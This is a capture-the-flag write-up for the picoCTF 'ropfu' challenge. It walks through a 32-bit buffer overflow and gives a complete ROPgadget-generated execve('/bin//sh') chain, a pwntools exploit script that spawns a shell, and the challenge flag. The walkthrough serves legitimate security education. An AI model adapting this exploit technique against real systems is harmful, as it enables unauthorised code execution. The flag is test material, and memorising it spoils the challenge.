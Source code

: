 # ropfu
> Write-up author: vreshco
## DESCRIPTION:
What's ROP? Can you exploit the following program to get the flag? Download source. nc saturn.picoctf.net 59565
## HINT:
- NONE
## STEPS:
1. First, download the binary file given, then check the binary type and it's protections.

> TYPE - 32 bit, not stripped.

![image](https://user-images.githubusercontent.com/70703371/217817473-ecb19db2-e5c6-41a2-baad-1d5f05520313.png)

> VULN - Partial RELRO (can read & write GOT), NX Disabled (can perform bufferoverflow with code execution from memory that marked as NX), NO PIE (ASLR disabled), Has RWX segments (allows us to inject shellcode & execute it). 

![image](https://user-images.githubusercontent.com/70703371/217817687-bcf2af08-a1d4-4a54-a41c-b82b226ab3cb.png)


2. Next, let's see the source code given.
3. Notice, at the `vuln()` function, we can do bufferoverflow.

![image](https://user-images.githubusercontent.com/70703371/217821110-61ff4078-48c4-4c2c-90e1-ceef8d3a5d72.png)


4. But the problem is, there's no flag function or any interesting function to jump.
5. Anyway let's find the correct offset first for EIP.
6. Let's run the binary using **pwndbg**, then enter cyclic 100 bytes as input.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/217822357-d7263cbe-6784-4361-b4fa-b68b8123c0bf.png)


![image](https://user-images.githubusercontent.com/70703371/217822396-c1009e7e-5033-4585-a004-afd2ccae8870.png)


7. Got segmentation fault, to find the offset, let's copy the 4 characters from the EIP.

> RESULT - 28

![image](https://user-images.githubusercontent.com/70703371/217822580-59b36ecb-b6e5-418d-9fd9-76765e26e4cc.png)


8. Since the binary has no interesting function to jump or execute and the binary protection seems tell us to make a **ropchain** script, hence we can use **ROPgadget** features to automate that.
9. Simply run `ROPgadget --binary ./vuln --ropchain --badbytes "00|0a"`.
10. With the `--badbytes` flag, we remove null bytes & new lines.
11. Because those shall messed up our **ropchain**.

> RESULT

```py
#!/usr/bin/env python3
# execve generated by ROPgadget

from struct import pack

# Padding goes here
p = b''

p += pack('<I', 0x080583c9) # pop edx ; pop ebx ; ret
p += pack('<I', 0x080e5060) # @ .data
        p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x080b074a) # pop eax ; ret
p += b'/bin'
p += pack('<I', 0x08059102) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080583c9) # pop edx ; pop ebx ; ret
p += pack('<I', 0x080e5064) # @ .data + 4
        p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x080b074a) # pop eax ; ret
p += b'//sh'
p += pack('<I', 0x08059102) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080583c9) # pop edx ; pop ebx ; ret
p += pack('<I', 0x080e5068) # @ .data + 8
        p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x0804fb90) # xor eax, eax ; ret
p += pack('<I', 0x08059102) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x08049022) # pop ebx ; ret
p += pack('<I', 0x080e5060) # @ .data
p += pack('<I', 0x08049e39) # pop ecx ; ret
p += pack('<I', 0x080e5068) # @ .data + 8
p += pack('<I', 0x080583c9) # pop edx ; pop ebx ; ret
p += pack('<I', 0x080e5068) # @ .data + 8
        p += pack('<I', 0x080e5060) # padding without overwrite ebx
p += pack('<I', 0x0804fb90) # xor eax, eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0808055e) # inc eax ; ret
p += pack('<I', 0x0804a3d2) # int 0x80
```

12. Let's combine the script with **pwntools**.

> THE SCRIPT

```py
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else: 
        return process([exe] + argv, *a, **kw)

exe = './vuln'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

sh = start()

offset = b'A' * 28
ropPayloads = offset
ropPayloads += flat(0x080583c9) # pop edx ; pop ebx ; ret
ropPayloads += flat(0x080e5060) # @ .data
ropPayloads += flat(0x41414141) # padding
ropPayloads += flat(0x080b074a) # pop eax ; ret
ropPayloads += b'/bin'
ropPayloads += flat(0x08059102) # mov dword ptr [edx], eax ; ret
ropPayloads += flat(0x080583c9) # pop edx ; pop ebx ; ret
ropPayloads += flat(0x080e5064) # @ .data + 4
ropPayloads += flat(0x41414141) # padding
ropPayloads += flat(0x080b074a) # pop eax ; ret
ropPayloads += b'//sh'
ropPayloads += flat(0x08059102) # mov dword ptr [edx], eax ; ret
ropPayloads += flat(0x080583c9) # pop edx ; pop ebx ; ret
ropPayloads += flat(0x080e5068) # @ .data + 8
ropPayloads += flat(0x41414141) # padding
ropPayloads += flat(0x0804fb90) # xor eax, eax ; ret
ropPayloads += flat(0x08059102) # mov dword ptr [edx], eax ; ret
ropPayloads += flat(0x08049022) # pop ebx ; ret
ropPayloads += flat(0x080e5060) # @ .data
ropPayloads += flat(0x08049e39) # pop ecx ; ret
ropPayloads += flat(0x080e5068) # @ .data + 8
ropPayloads += flat(0x080583c9) # pop edx ; pop ebx ; ret
ropPayloads += flat(0x080e5068) # @ .data + 8
ropPayloads += flat(0x080e5060) # padding without overwrite ebx
ropPayloads += flat(0x0804fb90) # xor eax, eax ; ret
ropPayloads += flat(0x0808055e) # inc eax ; ret
ropPayloads += flat(0x0808055e) # inc eax ; ret
ropPayloads += flat(0x0808055e) # inc eax ; ret
ropPayloads += flat(0x0808055e) # inc eax ; ret
ropPayloads += flat(0x0808055e) # inc eax ; ret
ropPayloads += flat(0x0808055e) # inc eax ; ret
ropPayloads += flat(0x0808055e) # inc eax ; ret
ropPayloads += flat(0x0808055e) # inc eax ; ret
ropPayloads += flat(0x0808055e) # inc eax ; ret
ropPayloads += flat(0x0808055e) # inc eax ; ret
ropPayloads += flat(0x0808055e) # inc eax ; ret
ropPayloads += flat(0x0804a3d2) # int 0x80

p = flat([
    ropPayloads
])

sh.sendline(p)
sh.interactive()
```

13. Let's test it locally.

> RESULT - Got the shell!

![image](https://user-images.githubusercontent.com/70703371/217830995-177aac2b-332f-4b52-a159-8ba7fcb6dde5.png)


14. Great now let's run it remotely.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/217831186-b96b9cdb-f7f0-4a93-8bf8-a780e894df22.png)


15. Got the flag!

## FLAG

```
picoCTF{5n47ch_7h3_5h311_c6992ff0}
```
